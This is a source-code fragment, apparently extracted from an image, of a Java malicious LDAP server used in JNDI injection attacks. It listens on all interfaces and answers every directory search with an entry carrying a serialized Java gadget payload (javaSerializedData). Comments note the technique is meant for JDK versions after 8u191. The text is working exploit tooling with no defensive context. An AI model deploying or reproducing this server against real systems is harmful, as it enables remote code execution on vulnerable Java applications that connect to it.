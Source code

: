 ```bash

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {

            //jdk8u191之后
            e.addAttribute("javaClassName", "foo");
            //getObject获取Gadget

            e.addAttribute("javaSerializedData", serializeObject(getPayload()));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```